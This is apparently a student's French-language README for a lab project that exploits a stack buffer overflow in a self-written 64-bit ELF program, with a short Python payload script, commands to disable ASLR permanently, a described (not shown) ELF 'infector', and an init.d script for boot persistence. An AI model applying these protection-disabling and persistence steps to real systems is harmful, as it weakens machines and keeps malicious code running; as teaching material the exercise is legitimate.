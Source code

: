 
# README : Exploit (buffer-overflow) et ELF Infector

## 1. Introduction

Ce projet permet d'exploiter une vulnérabilité de type **buffer overflow** dans un programme ELF 64 bits (`vuln64`) afin de rediriger l'exécution vers une fonction secrète (`secretFunction`). Ensuite, nous avons injecté un code malveillant dans le programme ELF pour garantir la **persistance** de l'exploit, même après un redémarrage du système.

## 2. Objectifs

- Exploiter la vulnérabilité de buffer overflow dans `vuln64`.
- Créer un script Python (`exploit.py`) pour automatiser l'exploit.
- Implémenter un **infector** (`infector.py`) pour injecter du code malveillant dans le fichier ELF et assurer la persistance de l'exploit.
- Gérer la persistance après un redémarrage et après recompilation du binaire.
- Désactiver l'ASLR pour garantir la stabilité des adresses mémoire.

NB: je me suis aider des sites qui parlais du elf infector pour comprendre. c'etais un peu dificile de comprendre. ainsi  que de l'ia pour du debugage.

## 3. Prérequis

- Les outils nécessaires : gcc, objdump, gdb, readelf, python3
- Un fichier binaire vulnérable vuln64 pour tester l'injection
- Python 3.x installé pour exécuter les scripts `exploit.py` et `infector.py`
- Accès administrateur pour désactiver l'ASLR et gérer les configurations du système

## 4. Étapes d'implémentation

### 4.1. Vulnérabilité Buffer Overflow
J'ai créer un binaire moi meme pour tester ma comprehension
Le programme `vuln64.c` contient une vulnérabilité de buffer overflow qui permet d'écraser l'adresse de retour pour exécuter une fonction secrète, `secretFunction`.

### 4.2. Compilation du Programme

Le programme est compilé avec les options suivantes pour désactiver la protection de la pile et activer l'exécution de la pile:

```bash
gcc -o vuln64 vuln.c -fno-stack-protector -z execstack -no-pie
```


### 4.3. Exploit de Buffer Overflow

Le but est de déclencher un buffer overflow pour écraser l'adresse de retour et rediriger l'exécution vers `secretFunction`.

#### Script Python `exploit.py` :

Le script `exploit.py` génère un payload qui remplit le buffer de 32 octets, écrase la valeur de `%rbp`, et place l'adresse de `secretFunction` dans la pile.

```python
# exploit.py
import sys

# Remplir le buffer de 32 octets, 8 octets pour %rbp, puis l'adresse de secretFunction qu'on trouve en faisant objdump -d vuln64 | gre>
payload = b"A" * 32 + b"B" * 8 + b"\x46\x11\x40\x00\x00\x00\x00\x00" +  b"\xbb\x11\x40\x00\x00\x00\x00\x00"

sys.stdout.buffer.write(payload)

```

Le payload consiste en :
- 32 octets de `A` pour remplir le buffer.
- 8 octets de `B` pour écraser le `%rbp` (optionnel mais recommandé).
- L'adresse de `secretFunction` en little-endian (`\x46\x11\x40\x00\x00\x00\x00\x00`).

#### Exécution de l'exploit :

```bash
python3 exploit.py | ./vuln64
```

**Résultat attendu :


### 4.4. Désactivation de l'ASLR

L'ASLR (Address Space Layout Randomization) empêche l'exploit de fonctionner correctement car il change les adresses à chaque exécution. Pour garantir la stabilité de l'exploit, nous avons désactivé l'ASLR de manière permanente.

#### Désactivation temporaire de l'ASLR :

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

#### Désactivation permanente de l'ASLR :

1. Ouvrir le fichier `/etc/sysctl.conf` :
   ```bash
   sudo nano /etc/sysctl.conf
   ```
2. Ajoute la ligne suivante :
   ```bash
   kernel.randomize_va_space=0
   ```
3. Recharge la configuration :
   ```bash
   sudo sysctl -p
   ```

### 4.5. Création de l'Infector

L'**infector** est responsable de l'infection du programme ELF, permettant à l'exploit de persister après un redémarrage ou une recompilation.

#### Script Python `infector.py` :

Le script `infector.py` doit modifier le binaire ELF afin d'injecter du code malveillant ou des modifications d'adresse pour que le programme exécute `secretFunction` même après un redémarrage ou une recompilation.


#### Explication de l'injecteur :

1. Le fichier binaire `vuln64` est lu dans `binary_data`.
2. L'adresse de `secretFunction` est injectée dans l'adresse de retour.
3. Le fichier infecté est écrit dans un nouveau fichier, par exemple `vuln64.infected`.

#### Exécution de l'infection :

```bash
python3 infector.py
```


### 4.6. Test de l'Infection

Après avoir infecté le binaire, tu peux le tester en exécutant le fichier `vuln64` :

```bash
./vuln64
```



### 4.7. Assurer la Persistance Après Redémarrage

Pour garantir que l'infecteur fonctionne après un redémarrage, voici une méthode qui crée un script d'initialisation qui réexécute l'infecteur à chaque démarrage du système.

#### Créer un script d'initialisation :

1. Créer un script dans `/etc/init.d/` pour exécuter l'infecteur au démarrage :
   
   ```bash
   sudo nano /etc/init.d/run_infect
   ```

2. Ajouter le contenu suivant dans le fichier :

   ```bash
   #!/bin/bash
   python3 /home/user/path/to/infector.py
   ```

3. Rendre ce fichier exécutable :

   ```bash
   sudo chmod +x /etc/init.d/run_infect
   ```

4. Ajouter le script au démarrage :

   ```bash
   sudo update-rc.d run_infect defaults
   ```

Cela garantira que l'infecteur sera exécuté à chaque démarrage du système, maintenant ainsi la persistance de l'exploit.

---

## 5. Conclusion

Ce projet démontre comment exploiter une vulnérabilité de buffer overflow dans un programme ELF 64 bits et injecter un code malveillant dans le binaire pour garantir la persistance de l'exploit même après un redémarrage ou une recompilation.

- j'ai utilisé **Python** pour automatiser l'exploitation et l'infection du programme ELF.
- j'ai désactivé l'ASLR pour garantir la stabilité des adresses mémoire.
- j'ai utilisé un script d'initialisation pour garantir la persistance après redémarrage.

## 6. Capture d'écran

1. **Exploit réussi** : Capture d'écran montrant le message "Congratulations!" après l'exécution du payload.

2. **infection réussi** : 


### Fichiers fournis :

- **`vuln.c`** : Code source vulnérable.
- **`vuln64`**
- **`exploit.py`** : Script pour exploiter le buffer overflow.
- **`infector.py`** : Script pour injecter le payload et maintenir la persistance.
